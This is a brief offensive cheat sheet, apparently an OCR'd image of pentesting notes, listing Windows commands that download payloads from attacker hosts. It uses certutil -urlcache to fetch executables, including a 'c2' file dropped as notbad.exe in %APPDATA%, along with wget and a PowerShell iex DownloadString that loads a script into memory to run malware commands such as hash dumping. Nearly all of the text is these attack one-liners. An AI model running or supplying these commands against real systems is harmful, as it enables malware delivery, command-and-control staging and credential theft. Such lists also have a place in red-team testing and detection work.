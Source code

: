 # Command line
	cmd.exe /C certutil  -split -urlcache -f http://10.10.10.10/exe.LOL c:\Users\Admin\Desktop\exe.lol
# Utilities
	certutil -urlcache -f http://10.10.10.10/lol.exe lol.exe
	certutil -urlcache -split -f http://mywebsite.com/c2 %APPDATA%\notbad.exe
# Command Line 
	wget http://10.10.10.10/lol.exe -outfile lol.exe
# loaded into memory can then run commands from malware ie get-hash
	iex (New-Object Net.webclient).downloadstring('http://10.10.10.10/lol.ps1')

